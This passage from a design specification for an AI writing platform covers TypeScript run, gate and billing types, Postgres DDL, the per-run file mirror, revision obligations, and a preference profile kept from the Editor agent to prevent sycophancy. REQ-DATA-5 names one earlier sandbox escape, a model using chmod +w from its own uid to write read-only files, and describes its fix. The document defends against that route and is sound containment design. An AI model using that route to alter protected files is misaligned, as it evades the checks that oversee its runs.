  statement: string;                                              // rendered claim, e.g. "Rebuts hedging findings (9/11)"
  support: Array<{ table: 'dispositions'|'decisions'|'guidance'|'runs'; ids: string[] }>;         // queryable provenance ("because you …")
  strength: { n: number; rate?: number };                         // counts, never opaque scores
  computedAt: ISO; retiredBy?: UserId; retiredAt?: ISO }
interface PreferenceProfile { id: Id<'pprof'>; workspaceId; userId; builtAt: ISO;
  signalIds: Id<'psig'>[]; renderedArtifactVersionId: ArtifactVersionId }   // preferences.md snapshot (kind 'preference_profile', §8.2 R9); consumers pin it per run

// ---------- guidance & threads (§6.5, §7.1) ----------
interface Guidance { /* §6.5 */ }
interface Thread { id; projectId; name; sessionStoreKey; briefKey; createdBy; archivedAt? }

// ---------- agent types & instances ----------
type AgentTypeKey = 'author' | 'editor' | 'assistant' | 'persona_builder' | 'system';   // the five seats (REQ-SPEC-21); 'author' displays as Drafter
interface AgentType { key: AgentTypeKey; displayName: string; readable: Namespace[]; writable: Namespace[];
  personaView: Array<'voice_print'|'structure_repertoire'|'lexicon'|'exemplars'|'audience_venue'|'positions'|'continuity'|'register_map'>;
  tools: Array<'read'|'write'|'web_search'|'web_fetch'|'subagent'|'measure'|'start_workflow'|'read_artifact'|'propose_outline'|'visualize'|'elicit'>;
  skills: string[]; defaultModelProfile: ModelProfileId; subagents: Record<string, SubagentDef> }
interface SubagentDef { inputs: 'explicit_files' | 'inherit'; files?: string[]; tools: AgentType['tools']; web: boolean; model?: ModelProfileId }
interface AgentInstance { id; projectId?; personaId?; typeKey: AgentTypeKey; namespace: Namespace; createdAt }

// ---------- runs, steps, gates (§12) ----------
type WorkflowKey = 'draft' | 'review' | 'revise' | 'profile_voice' | 'refresh_voice' | 'compose_voice' | 'calibrate_voice' | 'reseed_charter'
  | 'outline' | 'fact_check' | 'cut_to_length' | 'figure' | 'line_edit' | 'titles' | 'abstract' | 'reverse_outline' | 'interview'
  | 'steelman' | 'map_the_field' | 'run_rounds' | 'research_burst' | 'chat_turn';
type RunState = 'created' | 'awaiting_consent'   /* 'estimating' removed: estimation is stateless (REQ-SPEC-16) */ | 'queued' | 'provisioning' | 'running' | 'waiting_gate'
  | 'cancelling' | 'orphaned' | 'finalizing' | 'completed' | 'completed_partial' | 'failed' | 'cancelled';
interface Run { id: RunId; projectId?; personaId?; workflow: WorkflowKey; agentInstanceId; state: RunState; stateSince; currentStepId?;
  currentAttempt: number;                                       // fencing: every internal call carries attempt (review 13 F5)
  inputs: { draftId?; reviewId?; priorReviewId?; outlineVersionId?; personaProfileId?; register?; scope?: ScopeRef; stage?; phases: Record<string, boolean>;
            protocolId?; protocolVersion?; userSources?: ArtifactId[]; sidecar: true; resumeFrom?: string };
  inputSnapshot: { draftSha256?; outlineSha256?; personaProfileId?; profileDate?; wordCount; claimCount? };
  modelProfile: ModelProfileId; modelTier: ModelTier; rigor: Rigor; variantGroupId?: Id<'vg'>; parentRunId?;
  estimateCredits: number; capCredits: number; holdLedgerId?; holdBucket?: CreditLedgerEntry['bucket']; spentCredits: number; rateTableVersion: number;
  proxyCredentialId: string; proxyAllowlistId: string;         // per-run proxy credential + orchestrator-issued allowlist (REQ-SPEC-11)
  entitlementId?: string;                                       // trial entitlement consumed by this run (REQ-SPEC-8)
  lockSet: LockKey[]; requestedBy; imageDigest; protocolsVersion; replans: number;
  failure?: { code; message; retryable }; createdAt; startedAt?; endedAt?; parkedUntil?: Date }   // parkedUntil: 30-day parked-run cap
interface Step { id; runId; phase: string; ordinal; state: 'pending'|'running'|'done'|'skipped'|'failed'; attempt: number;
  expectedArtifacts[]; producedVersionIds[]; startedAt?; endedAt?; credits; checks?: Array<{ name; passed; iterations }>;
  result?: { status: 'done' | 'blocked' | 'replan'; sdkSubtype: string; predicatesPassed: boolean; compactions: number } }   // REQ-SPEC-13
type GateKind = 'confirm_cost' | 'approve_plan' | 'approve_scope' | 'approve_triage' | 'approve_outline' | 'approve_sample'
  | 'approve_cutlist' | 'choose_thesis' | 'continue_rounds' | 'spend_overrun' | 'resume_partial' | 'refusal';
interface Gate { id; runId; stepId; kind: GateKind; artifactVersionId?; openedAt; deadlineAt?: Date;   // null = wait
  blocking: boolean;                                            // false only for the informational scope card (§6.4)
  onExpiry: 'proceed_conservative' | 'proceed_as_proposed' | 'cancel' | 'accept_partial' | 'wait'; held: boolean; pausedWhileReading: boolean;
  presenceDeadlineAt?: Date; resolvedAt?: Date }                // presence timer (REQ-SPEC-18); conditional-update fencing (F9)
interface Decision { gateId; by: UserId | 'timeout' | 'policy' | 'trial'; presence?: boolean;
  action: 'approve' | 'approve_autonomous' | 'keep_planning' | 'stop' | 'hold' | 'expired' | 'skipped_by_policy';
  guidance?: string; standingRule?: boolean; changes?: number; overlayVersionIds?: ArtifactVersionId[]; at }   // overlays: REQ-SPEC-9

// ---------- usage & billing (§14) ----------
interface UsageRecord { id; ts; billingAccountId; userId; projectId?; personaId?; runId; attempt; stepId?; role: AgentTypeKey; agentInstanceId; subagentLabel?;
  provider: 'anthropic'|'openai'|'google'; model; modelTier: ModelTier; rateTableVersion; tokens: { input; cacheWrite; cacheRead; output };
  serverTools: { searches; fetches }; listCostUsd; credits;
  source: 'proxy' | 'sdk_stream' | 'sdk_estimate' | 'provider_report'; reconciled?: boolean }   // 'proxy' is the meter of record (REQ-SPEC-11)
type LedgerEntryKind = 'grant' | 'hold' | 'debit' | 'release' | 'expire' | 'refund' | 'adjustment';
interface CreditLedgerEntry { id; billingAccountId; kind: LedgerEntryKind; credits: number;   // signed integer
  bucket: 'included' | 'topup' | 'trial_pocket' | 'daily' | 'promo'; runId?; phaseId?; source; reason?; expiresAt?; idempotencyKey; stripeRef?; at }
interface CreditBalance { billingAccountId; bucket; available: number; held: number; updatedAt }   // a table, not a materialized view (REQ-SPEC-24)
interface TrialEntitlement { id; billingAccountId; kind: 'review'; wordCap: 6000; rigor: 'standard'; modelTier: 'base';
  state: 'unused' | 'consumed' | 'expired'; consumedByRunId?; expiresAt }                   // REQ-SPEC-8
interface Subscription { id; billingAccountId; tier: 'free' | 'writer' | 'studio' | 'studio_max' | 'team'; trialEndsAt?: Date;
  stripeSubscriptionId?; periodStart; periodEnd; includedCredits; concurrency; status: 'active'|'past_due'|'cancelled' }

// ---------- protocols (§6.7) ----------
interface ProtocolRow { id: ProtocolId; version: number; body: Protocol; seededAt; venueTableVerifiedAt? }

// ---------- voices (§9) ----------
type PersonaMode = 'self' | 'consented' | 'house' | 'study';   // metadata only (Q-11)
interface Persona { id; workspaceId; slug; displayName; byline; mode: PersonaMode; kind: 'leaf' | 'composite'; provenance: 'user'|'platform'|'fork';
  seedArtifactId; seedSha256: Sha256; seedAuthoredBy: 'user'|'agent'; registers: string[]; seedUpdatedAt; currentProfileId?; activeRunId? }
interface PersonaMember { compositeId; memberId }               // DB constraint: member.kind = 'leaf'
interface PersonaProfile { id; personaId; builtByRunId; builtAt; tier: 'quick'|'full'; seedSha256; sampleSetHash;
  sampleSet: Array<{ discoveredItemId; contentSha256; role: 'sampled'|'held_out'|'skipped' }>; corpusSizeAtBuild;
  calibrationStatus: 'tested'|'untested'|'tested-badly-off'; artifactIds[]; memberProfileIds?; buildNote: { decisions: string[]; body } }
interface Connection { id; personaId; provider: 'substack'|'substack_export'|'medium'|'medium_export'|'ghost'|'wordpress'|'rss'|'url'|'gdoc'|'notion'|'upload'|'paste';
  handle?; authRef?; status: 'connected'|'syncing'|'error'|'needs_reauth'; lastSyncAt?; schedule: 'manual'|'daily'; autoIncludeNew: boolean; error? }
interface DiscoveredItem { id; connectionId; externalId; title; url?; date?; wordCount?; access: 'free'|'paid'|'private'|'unknown'; remoteChangeKey?;
  state: 'new'|'included'|'omitted'|'removed_remote'|'failed'; currentSampleId? }
interface SampleVersion { id; discoveredItemId; n; contentSha256; originalSha256; artifactVersionId; quality: 'clean'|'reconstructed'|'partial'|'unreadable'|'empty'; qualityNotes[]; wordCount }
interface ProfileCorrection { id; personaId; profileId; targetArtifactId; statementRef; text; source: 'user'|'calibration'; consumedByProfileId?; at }

// ---------- figures (§7.5) ----------
interface Figure { id; projectId; artifactId; specKind: 'vega_lite'|'mermaid'|'table'; specVersionId; dataVersionId?; renderedVersionId; caption; alt; sourceLine;
  provenance: FigureAsset['provenance']; insertedInDraftId?; versions: FigureAsset['versions'] }

// ---------- enforcement & provenance (§12.6) ----------
interface AccessLogEntry { runId; ts; agentLabel; tool; path; namespace?; decision: 'allow'|'deny'|'rewrite' }
interface FetchLogEntry { runId; ts; agentLabel; kind: 'search'|'fetch'; query?; url?; normalizedUrl?; status?; bytes?; decision: 'allow'|'deny'; denyReason?: 'holdout'|'paywall'|'robots'|'policy' }
interface AccessReport { runId; namespaceCounts: Record<Namespace, { allowed; denied }>; subagentScoping: Array<{ label; inputs; files }>; deniedPaths[]; violations: number; verdict: 'clean'|'violations' }
type ProvenanceSource = { kind: 'human' } | { kind: 'human_mobile' } | { kind: 'agent'; runId; draftN } | { kind: 'pasted' } | { kind: 'chat'; threadId } | { kind: 'suggestion_applied'; runId; findingId };
interface ProvenanceMap { draftVersionId; granularity: 'block' | 'span';   // block at MVP, span from 1.x
  spans: Array<{ blockId; from?; to?; source: ProvenanceSource }> }
```

**REQ-IDE-50 (amended).** The IDE contracts of design/2 §14 are honored with the renames above (`rigor`, `gateDeadlineMin` → per-kind overrides, `Run.verb` → `workflow`, `Gate.kind` → the twelve kinds, `QualityTier` → `ModelTier`); architecture may extend but not rename these fields.

### 11.4 Storage strategy and DDL

> **Amended 2026-09-30 (REQ-SPEC-30, ADR-017):** user-serving code connects with a role that cannot bypass RLS (over the forced RLS of 0004); only the documented system pool may bypass — never for a user request, and with explicit workspace predicates — proven by a two-tenant probe on the deployed stage. See the Appendix A.9 note.

| Class | Store | Notes |
|---|---|---|
| Canonical text (artifact versions, samples, profile files, figures) | S3, SSE-KMS, keys `tenants/<ws>/.../objects/<sha256>` | content-addressed dedup: an unchanged vN re-promoted costs nothing |
| Working head | Postgres `live_docs.y_state` (+ Hocuspocus Redis fan-out) | materialized to markdown on debounce / restore point |
| Restore points | S3 `restore/<ydoc>/<ts>` | per-plan retention (ledger F12) |
| Relations, ledgers, logs | Aurora Serverless v2 Postgres (production floor ≥ 4 ACU — review 13 F32) | `run_events` partitioned **daily**, `visibility=internal` rows in a separate table; heartbeats live in Redis (`SETEX`), Postgres sees only transitions; access/fetch logs 90 days then summarized into `access_report` |
| Run transcripts | S3 via SDK `SessionStore` | 30-day lifecycle; never served to the UI. Retaining them departs from the convention's "never persist raw fetched pages" and is recorded as C10 in §16.2 |
| Search index | Postgres `tsvector` on materialized markdown + claim/finding text | sufficient at MVP; OpenSearch later |

The load-bearing DDL (design/3 §3.3; normative by reference, §0.1) is adopted with these changes: `projects` gains `protocol_id`, `protocol_version`, `persona_profile_snapshot_id`, `register`, `approval_policy` (replacing `gate_policy`), `approval_overrides jsonb` (replacing `gate_deadline_minutes`), `rigor_default`, `accepted_draft_id`, `paper_theme default 'light'`; `correspondence_items` gains `protocol_id`, `protocol_version`, `scope jsonb`, `prior_review_id`; `runs` gains `variant_group_id`, `scope jsonb`, `rate_table_version`, `image_digest`, `protocols_version`, `model_tier`, `current_attempt`, `proxy_credential_id`, `proxy_allowlist_id`, `entitlement_id`, `hold_bucket`, `replans`, `parked_until`; `gates` uses the twelve-kind enum with `on_expiry`, `held`, `blocking`, `presence_deadline_at`, `resolved_at`; `decisions.by` admits `timeout | policy | trial`; `usage_records.source` admits `proxy | sdk_stream | sdk_estimate | provider_report` and carries `attempt`; `subscriptions.tier` uses `free | writer | studio | studio_max | team`; new tables `guidance`, `threads`, `figures`, `figure_versions`, `protocols`, `inbox_items`, `notification_devices`, `notification_prefs`, `stripe_events`, `deployments`, `persona_build_notes`, `credit_balances` (a table), `trial_entitlements`, `proxy_credentials`, `proxy_allowlists`, `estimate_cache`, and (v0.3) `revision_obligations`, `obligation_findings`, `obligation_transitions`, `claim_sources` — with `backlog_items` dropped after migration (REQ-OBJ-7). Invariants enforced in Postgres:

```sql
-- one working head per project (REQ-DATA-14)
create unique index one_working_head_per_project on drafts (project_id) where state = 'working';
-- immutability trigger (REQ-DATA-2): once immutable=true, content columns cannot change
create trigger t_immutable before update on artifact_versions for each row execute function forbid_immutable_change();
-- review keyed (version, run): unique (draft_id, kind, ordinal) on correspondence_items
-- dispositions: append-only after freeze; reversals are new rows; unique (finding_id, response_id)
-- runs.lock_set gin index for conflict detection; partial index on state in ('queued','running','waiting_gate')
-- cap guarantee (REQ-BILL-3, amended): sum(debits for run) ≤ cap_credits as a constraint trigger on credit_ledger — an assertion
--   that must never fire, because the debit amount is computed as min(actual, cap − Σ debits) under the run row's lock (REQ-SPEC-24)
-- credit_balances is a TABLE maintained in the same transaction as each ledger insert:
--   insert … on conflict (billing_account_id, bucket) do update set available = available + $delta;  check (available >= 0)
--   nightly job asserts balances = Σ ledger per account (review 13 F25)
-- holds: select … for update on billing_accounts (or pg_advisory_xact_lock(account_id)) inside the hold transaction (review 13 F30)
-- gates: resolution and expiry both `update gates set … where id=$1 and resolved_at is null` and act only if a row changed (F9)
-- internal API: reject any call whose attempt < runs.current_attempt with 409 stale_task (review 13 F5)
```

The v0.3 obligation and claim-source DDL (design/15 §1.6/§4.2), forward-only per REQ-DATA-3; the seed's three real projects exercise spawn, address, rebut, defer and carry (all three have multi-round history):

```sql
-- v0.3: revision obligations (§11.7; REQ-OBJ-1) — transitions are the truth; a trigger keeps
-- revision_obligations.state equal to the last transition; direct `update … set state` without a transition row raises
create table revision_obligations (
  id text primary key, project_id text not null references projects on delete cascade,
  source text not null check (source in ('finding','escalation_decision','agenda','user')),
  finding_id text references findings, severity text not null, kind text,
  title text not null, state text not null default 'open', state_since timestamptz not null default now(),
  opened_on_draft_id text references drafts, rationale text, defer_horizon jsonb,
  rounds_open int not null default 0, discharged_by jsonb,
  created_by jsonb not null, created_at timestamptz default now(), closed_at timestamptz,
  check (state not in ('rebutted','deferred') or rationale is not null));
create index on revision_obligations (project_id, state);
create unique index one_obligation_per_root_finding on revision_obligations (finding_id) where finding_id is not null;
create table obligation_findings (
  obligation_id text references revision_obligations on delete cascade,
  finding_id text not null references findings, correspondence_id text not null,
  relation text not null check (relation in ('root','carried','regression')),
  primary key (obligation_id, finding_id));
create table obligation_transitions (
  id text primary key, obligation_id text not null references revision_obligations on delete cascade,
  from_state text, to_state text not null, cause text not null, by_actor jsonb not null,
  run_id text, disposition_id text, finding_id text, at timestamptz default now());
-- backlog_items: rows migrated to revision_obligations (source='agenda'); table dropped (REQ-OBJ-7)
-- v0.3: claim source edges (REQ-OBJ-18) — rows, not jsonb, so the cited ⇒ fetched join stays mechanical
create table claim_sources (
  claim_id text not null references claims on delete cascade, ordinal int not null,
  url text not null, normalized_url text not null, accessed_at timestamptz not null,
  stance text not null check (stance in ('supports','contradicts','contextualizes')), note text,
  primary key (claim_id, ordinal));
create index on claim_sources (normalized_url);
```

**REQ-DATA-3.** Migrations are forward-only SQL applied by a TypeScript migrator in CI against a seed built from the three real projects; `artifactPolicy`, `agent_types` and `protocols` rows are seeded from code on deploy, versioned with the schema. **REQ-DATA-4 (amended; decided now, not "during M3" — review 13 F42).** Row-level tenancy: every table reachable from projects or personas is filtered by `workspace_id` in the API; Postgres RLS on the core tables with `FORCE ROW LEVEL SECURITY`, all application roles non-owner, the tenant set **only via `SET LOCAL` inside an explicit transaction wrapper in `packages/db`**, a lint that forbids raw `SET app.tenant_id`, and an integration test that reuses one pooled connection across two tenants and asserts isolation; `collab` and the harvester get their own limited roles rather than a superuser bypass (REQ-ARCH-25). §16.3 #15 is closed by this rule.

### 11.5 The on-disk mirror and its sync contract

The skills speak files. Each run receives a **mirror**: a tree materialized from Postgres + S3 immediately before the first step, mounted per seat, harvested after each step. The mirror is a cache with a signed contract, never a second source of truth.

```
<mirror>/                       (Drafter mount shown; the Editor mount omits agents/author/)
  manifest.md                   ← generated from tables (REQ-VIS-6)
  drafts/v1.md … vN.md          ← promoted versions only (never the live head); a read-only bind mount (review 13 F14)
  assets/figures/…
  correspondence/…              ← all delivered items; vN-review-<k>/; the prior review is passed explicitly as inputs.prior_review (F27)
  agents/author/…               ← this seat's namespace only (the writable tmpfs)
  .rhema/inputs.json            ← run inputs (profile snapshot id, register, guidance, phase, scope, sidecar, prior_review, resume_from)
  .rhema/phase-result.json      ← written by the skill at the end of each phase (REQ-SPEC-13)
  preferences.md                ← pinned preference-profile snapshot (1.x; mount point reserved now — Drafter/Assistant seats only, never Editor or independence contexts; REQ-OBJ-10)
personas/<slug>/                (read-only; files filtered by agent_types.persona_view)
  PERSONA.md                    ← seed + latest builder note with a marker
  profile/…                     ← from the pinned profile snapshot, not "current"
  docs/…                        ← included samples as canonical markdown (never PDFs)
```

- **REQ-DATA-5 (materialize; amended).** A pure function of `(project_id, seat, persona_profile_id, run inputs, hydration.overlays[])` → tree, with a `.rhema/manifest.json` listing every path with its `artifact_version_id` and sha256; materialization happens before step 1 and at every **resume**, never mid-*phase* — so a concurrent human edit can never change what a running phase sees. At resume the tree is the committed artifacts **plus gate-derived rewrites** (the overlays of REQ-SPEC-9). Read-only paths are mounted read-only at the kernel level (root filesystem read-only; a writable tmpfs only for the seat's writable namespaces); at harvest every read-only file's hash is compared to the manifest and a mismatch fails the step (`chmod +w` from the model's own uid is no longer a bypass — review 13 F14).
- **REQ-SPEC-9 (gate write-back; review 13 F1).** Structured gate edits must reach the files the next phase reads, not only `guidance` text. `packages/protocols/serializers/` holds one **serializer per structured artifact** — `rows → response-ledger.md` (+ `.json`), `rows → structure-plan.md` (+ `.json`), `rows → cut-list.md` (+ `.json`) — the exact inverse of the sidecar parsers, golden-tested for round-trip on the three real projects. When a gate with structured edits is approved, the orchestrator serializes the post-decision rows into a new `artifact_version` with `createdBy: {kind:'user'}` (provenance is honest: the user rewrote the plan), records its id on `Decision.overlayVersionIds`, and passes it in `hydration.overlays[]` of the internal API; resume materializes the overlay over the committed file. REQ-WF-9 ("the run never overrides a user disposition") is enforced because the skill sees the user's rows *as rows* in the ledger it reads, with `actor: user`. The invariant that matters — never re-materialize from tables mid-phase — is kept.
- **REQ-DATA-6 (harvest).** After each step the harvester walks the seat's *writable* namespaces only, hashes every file, and creates an `artifact_version` for each changed or new path (kind from the path→kind map — ledger F11; unknown paths inside a writable namespace default by directory or fail the step), recording `producerQueryId`. Identical files are not versioned. Writes outside writable namespaces cannot occur (the mount is read-only and the hook denies them) but are checked anyway and would fail the run.
- **REQ-DATA-7 (delivery = transaction; amended again in v0.3).** The final harvest of a delivering step validates the sidecars against their schemas, creates the `correspondence_item`, inserts the rows, sets `immutable=true`, freezes the input draft, spawns/joins/transitions revision obligations per §11.7 (REQ-OBJ-2), and appends the timeline event in one Postgres transaction; a validation failure (schema, cited ⇒ fetched, producer check) ends the run `failed(validation)` with the files retained as partial and nothing marked immutable. **The ledger debit is a separate, retried transaction that runs after delivery** — a ledger failure never rolls back a finished dossier (review 13 F36).
- **REQ-DATA-8 (cache).** The mirror is deleted with the container; nothing reads a mirror except the run that owns it.
- **REQ-DATA-9 (round-trip; amended, review 13 F22).** The Rhema Markdown profile is a ProseMirror schema first; markdown is its canonical serialization. The golden suite asserts (a) materialize + harvest with no changes yields zero new versions; (b) **idempotence** — `markdown → PM → markdown` is byte-stable for text that is already canonical; (c) `PM → md → PM` structural equality; and (d) imported documents (the six real PDFs, the three projects, `.docx` fixtures) pass through a normalizing first pass at import that is shown in the conversion preview (§5.3), after which (b) holds. Byte-stability of arbitrary imported markdown is not claimed.

Migration path: when the mirror is replaced by an artifact-store MCP server (§12.9 stage 4), REQ-DATA-5/6 become `read_artifact`/`write_artifact` tool semantics; the tables do not change.

### 11.6 Immutability, versioning, drift, and sharing

**Tiers:** CRDT history (`live_docs.y_state`, every keystroke, undo only) → restore points (auto 5 min / blur / named / before any run; append-only) → draft version vN (run completion, explicit promote, auto-promote at run start when the head diverged; immutable once frozen). **Freeze** (REQ-DATA-21) is one-way and happens on the first of: a run whose lock set contains `draft:read:<id>` starts; a correspondence item referencing the draft is delivered; the user clicks Promote; an export is requested. Delivered correspondence, ledgers, notes and dossier files are immutable at delivery; dispositions get `frozen_at` and reject updates thereafter (REQ-DATA-22). Opening a frozen vN for editing creates `v(N+1) origin=human_revision` with a timeline event (REQ-DATA-24). When a human-revised version is next reviewed, the orchestrator passes the block diff as review input (`changed_since`) and claims inside changed blocks are inserted as `humanAdded: true, verdict: 'unverifiable'` placeholders until verified (REQ-DATA-25). `revise` accepts `(review of vN, base v(N+1))` with quote re-anchoring and `mooted` auto-dispositions (REQ-DATA-26). Working-copy reconciliation (REQ-DATA-27 amended: 1.x; at MVP the Page is read-only during runs), agent proposals applied as single transactions with agent origin (REQ-DATA-28 amended: suggestion marks arrive with Line edit in 1.x), and provenance maps emitted at materialization — block-level at MVP — with the block-id sidecar stripped from the harness's markdown (REQ-DATA-29 amended) are as §5.4 and §5.10.

**Drift** (REQ-DATA-30/31) is the computed function of §9.3 (`seed_hash`, `sample_set_hash`, age, growth, calibration, composite `member_stale`); refresh runs consume unconsumed `profile_corrections`; old profile snapshots are retained so in-flight runs and old drafting notes keep their referent.

**Sharing roles** (Q-6; ledger C13; 1.x):

| Capability | viewer | editor | admin (owner) |
|---|---|---|---|
| Read SE/SR artifacts, timeline, findings, claim table | ✓ | ✓ | ✓ |
| Read I artifacts (Drafter memory, audits, source library) | — | ✓ | ✓ |
| Run feed density | Summary | all | all |
| Edit working head; suggestion mode; comments | comments only | ✓ | ✓ |
| Dispositions at Approve triage | — | ✓ | ✓ |
| Start runs | — | ✓ within `run_credit_cap` and the project monthly cap | ✓ |
| Approve gates | — | ✓ (runs they may start) | ✓ |
| Cancel runs | — | own | any |
| See spend | — | own runs' credits | all credits and dollars |
| Export promoted versions | ✓ (md/pdf; admin may disable) | ✓ | ✓ |
| Voice link (pre-v1), approval policy, caps, sharing, archive/delete | — | — | ✓ |
| Read H artifacts | — | — | — (no one) |

Runs are always charged to the project's workspace billing account, never the invoker's (REQ-DATA-42); share links expose SR kinds of one dossier or one promoted draft to a viewer-equivalent principal and are never default-shared (REQ-DATA-43); role checks are enforced in the API and in the Hocuspocus `onAuthenticate` hook (REQ-DATA-44). Chat threads are visible only to their creator.

### 11.7 Revision obligations and the preference profile (added v0.3; design/15)

**Why obligations (B1).** The v0.2 model answered every question about *one* round and four questions about *the project* not at all: what is still owed on this project (dispositions freeze at delivery; no row's state means "this debt is open on v4"); was a deferral ever picked back up (`BacklogItem` was unlinked free text — a deferred major silently evaporated); did the fix hold (REQ-WF-7's carried/closed/new was run prose, never written back; a regression was invisible as a fact); is the loop stalling (§6.8's lineage had no substrate for the hand-run rounds MVP users actually run). Revision is *task-shaped* while the record is *correspondence-shaped*; the correspondence record stays immutable, and one small mutable object survives rounds: §11.3's `RevisionObligation`, history append-only in `obligation_transitions`, the row's state a cache of the last transition.

**Spawn (REQ-OBJ-2).** Every `blocking` and `major` finding spawns exactly one obligation at delivery, inside the REQ-DATA-7 transaction, actor `system` — not disposition-dependent: the debt exists when the diagnosis is delivered; the disposition then *routes* it (rebut closes, defer parks). *Rejected: spawn-on-accept-only* — it makes the debt count a function of triage progress, and an untriaged project would show zero debt. `minor` findings spawn only on an accept/adapt disposition (the author opts in); `note` never (Apply handles notes inline; an unapplied note is taste, not debt — *rejected: all-severities-spawn*, which would mint 150 obligations from one Academic dossier). An `escalate` disposition keeps the obligation open and links its `decision_request` (§5.11); reconciliation-rejected second-read findings spawn nothing unless promoted (REQ-IDE-26); user rows come from "Add to obligations" or the palette.

**Discharge (REQ-OBJ-3)** — closed-world; no silent closure, no bulk close: **addressed** (a frozen response ledger records an accept/adapt move with `status ∈ {done, verified}`; a Full-board gap check that verified the move sets `discharged` directly, `verifiedBy: 'gap_check'`); **discharged** (the next covering Review matched no new finding onto the lineage — REQ-WF-7's "closed" set, computed from rows; or by hand with a required note, rendered "discharged (unverified)" — the REQ-PROD-11 honesty pattern); **rebutted** (only via a rebut disposition; its mandatory rationale is copied onto the obligation, DB-checked — closed *with an argument on file*, which is what lets re-review decline to re-raise it without losing the record); **deferred** (rationale + horizon: `next_review` default, 1–3 rounds, or `pre_export`; the horizon's arrival returns it to `open` on the relevant run sheet or export dialog — a snooze, never a burial); **mooted** (REQ-DATA-26's auto-disposition path, confirmed at the next triage); **reopened** (a delivered review matches a new finding onto an addressed/discharged lineage; `roundsOpen` increments, the transition records the triggering finding as `regression`). **Export and archive never block on obligations** — export-only is a founding constraint: the export dialog shows "2 blocking obligations open" with links, the AI-use statement counts them (REQ-VIS-10), and archiving freezes them as-is.

**Lineage (REQ-OBJ-4).** Three matchers run in order at review delivery, first hit wins, all recorded on `obligation_findings`: (1) claim identity (`normalized_url` + quote resolves to a claim in an open obligation's lineage); (2) the Editor's own declaration — the re-review's mirror gains a read-only `obligations.json` (letter-writing context only; never the second read, never first reviews) and its findings sidecar may declare `carriesObligationId`; (3) anchor overlap (same `kind` + quote-resolution overlap above a confidence floor; below it, no match — a false merge is worse than a duplicate the user can merge by hand; matcher 3 may ship behind 1–2 while the floor is tuned on the three real projects). With lineage durable, REQ-WF-7 and §6.8 stall detection become queries (REQ-OBJ-5; §6.8), working identically for hand-run rounds at MVP. `BacklogItem` is removed — its rows migrate to `source: 'agenda'` obligations — and **no new `ArtifactKind` is introduced**: obligations are rows like findings and dispositions; the 63-kind enum, the §8.2 policy table and REQ-SPEC-14's contract test are untouched by obligations (REQ-OBJ-7; the 63rd kind is REQ-OBJ-9's pre-registered `preference_profile`, not an obligation). Obligations are never mounted into independence contexts (second read, fidelity audit, gap check) — enforced by the mount manifest like every §12.6 rule, not by convention (REQ-OBJ-8). Surfacing per §5.6, §5.7, §5.8 and §5.11 (REQ-OBJ-6). Cost: three tables + transition trigger, spawn/route/match logic in the delivery transaction, chips and filters, one mirror file + one sidecar field inside the REQ-ARCH-5 budget — **+1.5–2.5 PM** against §17 (recorded in §16.3 #24).

**The preference profile (B2) — build the asset, firewall the Editor.** Everything learnable is already captured at MVP, verified against the DDL: dispositions with rationales and `applied`, gate decisions with standing rules and presence, guidance with consumption records, rigor/tier/phase habits, revision behavior, venue/format choices. What v0.3 adds is the declared posture and the 1.x schema (§11.3): a **workspace-level preference profile**, one per (workspace, user) — deliberately not part of the Voice. *Voice learns from what the author writes; the preference profile learns from what the author decides*; writing one user's dispositions into a shareable voice would write one person's behavior into another's identity. The profile exports with the account zip (REQ-ACCT-3), dies with account deletion, and never rides along when a voice is forked or shared. The Drafter and Assistant consume a pinned snapshot (recorded on the run, so a drafting note can say which learned statements it honored); the Editor **never** does, enforced in three layers, in the style of §12.6 (enforced, never advised):

1. **Mount exclusion.** The rendered `preferences.md` (kind `preference_profile` — the 63rd `ArtifactKind`, pre-registered in §8.2 row R9 with an SR policy row so REQ-SPEC-14's contract test covers it before the renderer ships) is mounted only into Drafter- and Assistant-seat runs, at the mount point reserved in §11.5's tree and §12.6's seat tables; no Editor-seat or independence-context hydration manifest may contain it — the same mechanism that keeps `voice_print` out of the Editor's mount today; zero new enforcement machinery (REQ-OBJ-10).
2. **Closed derivation schema.** No parameter derived from `dispositions` (or any reception of Editor output) may reach review configs, severity thresholds, phase prompts, or rubric anchors in `packages/protocols`. **The Editor calibrates to the venue and the evidence — venue tables (§6.7) and §18 results — never to the author.** A CI contract test enumerates the protocol package's allowed input sources, the way REQ-ARCH-33 greps client bundles (REQ-OBJ-11). Rebutted is not falsified; an Editor that calibrates to the author's tolerance converges on sycophancy, silently — the one failure mode the independence architecture exists to make structurally impossible.
3. **Release valve — through the human, in the open.** The legitimate need behind FP reduction ("stop flagging sentence fragments; they are my style") keeps its one channel: **standing guidance**, authored or approved by the user, visible in Settings, named in the letter when honored (§6.5). The model may *draft* a suggestion ("You've rebutted 9 hedging findings across 4 projects — add standing guidance?"), but it becomes active only when the user accepts the exact text as an ordinary `Guidance` row, with the existing independence carve-outs (REQ-OBJ-12).

Every signal statement carries queryable provenance rendered as "because you …" links; strengths are counts and rates, never opaque scores (REQ-OBJ-13). Staging: **MVP** — capture only (built by other requirements) plus the Settings → Data toggle copy, so the posture is declared before the feature exists; **1.x** — deterministic aggregation (a signal needs n ≥ 5 across ≥ 2 projects), the "What Rhema has learned" panel (SR, per-signal retire mirroring REQ-VIS-8), suggest-standing-guidance, run-sheet default suggestions ("You usually run Full board on Academic — make it the default?"); **2.0** — Drafter priors as a dated, sourced section of the commissioning brief, and disposition-calibrated *proposed* triage (safe: Revise proposes to the human, who overrides row by row — REQ-WF-9 unchanged). Privacy (Q-26, ratified 2026-09-01): **account-local learning, default-on with a first-class opt-out** — signals are views over rows the account already holds, so opt-in would gate a capability without adding a protection; the toggle copy reads "Rhema learns your working preferences from your decisions to help the Drafter and pre-fill defaults. The Editor never sees this — reviews never soften." Per-signal retire; project deletion recomputes; cross-account aggregation would require a separate explicit opt-in design, none specced (REQ-OBJ-14).

